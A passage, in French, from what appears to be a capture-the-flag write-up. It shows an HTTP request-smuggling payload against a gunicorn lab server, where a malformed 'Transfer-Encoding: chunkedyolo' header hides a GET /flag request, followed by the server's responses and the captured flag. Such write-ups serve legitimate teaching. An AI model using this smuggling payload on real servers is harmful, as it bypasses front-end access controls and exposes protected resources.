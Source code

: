A l'exécution ça donne ceci :

```http
POST /nawak HTTP/1.1
Host: 192.168.242.131
Transfer-Encoding: chunkedyolo
Content-Length: 4
Connection: keep-alive

40
GET /flag HTTP/1.1
Host: 192.168.242.131
Content-Length: 7


0

GET /yolo HTTP/1.1
Host: 192.168.242.131


HTTP/1.1 404 NOT FOUND
Server: gunicorn/20.0.1
Date: Mon, 21 Nov 2022 22:51:14 GMT
Connection: keep-alive
Content-Type: text/html; charset=utf-8
Content-Length: 497


404 Page Not Found !!!<br><br><br>$ Hint:<br>
Hey, there are two challenges for you, one at port 80 and another is at port 3000.<br><br>
# Challenge 1:<br>
The main server is running on port 8080 and we used Gunicorn to redirect the traffic at port 80.<br>
You need to get the flag from the "/flag" page by exploiting the vulnerability.<br><br>
# Challenge 2:<br>
Visit 3000 port via nc and pass the coding challenge. :)<br><br>
$ Troubleshooting:<br>
If you face any error just reboot machine. ;)
HTTP/1.1 200 OK
Server: gunicorn/20.0.1
Date: Mon, 21 Nov 2022 22:51:14 GMT
Connection: keep-alive
Content-Type: text/html; charset=utf-8
Content-Length: 31


kudos !!!    FHD{finit_hic_ctf}
```

On voit qu'on a bien reçu la réponse pour le flag à la place de celle pour `/yolo`.

*Publié le 21 novembre 2022*
